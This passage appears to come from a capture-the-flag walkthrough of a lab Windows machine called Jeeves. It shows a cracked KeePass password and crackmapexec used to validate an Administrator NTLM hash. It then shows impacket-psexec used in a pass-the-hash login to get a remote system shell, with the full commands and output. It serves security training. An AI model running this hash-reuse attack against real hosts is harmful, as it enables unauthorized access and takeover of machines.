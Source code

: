 > The password is moonshine1, now we can open kdbx file

```bash
keepassxc CEH.kdbx
```

![](/img2/Pasted%20image%2020250606125808.png)

> We can check with crackmapexec if the hash is valid

```bash
❯ crackmapexec smb 10.10.10.63 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
```

```ruby
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```

> The hash is valid, so we can connect with psexec

- Pass The Hash

```bash
❯ impacket-psexec WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
```

```ruby
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.10.63.....
[*] Found writable share ADMIN$
[*] Uploading file EYtNTaSf.exe
[*] Opening SVCManager on 10.10.10.63.....
[*] Creating service hMkv on 10.10.10.63.....
[*] Starting service hMkv.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> 
```
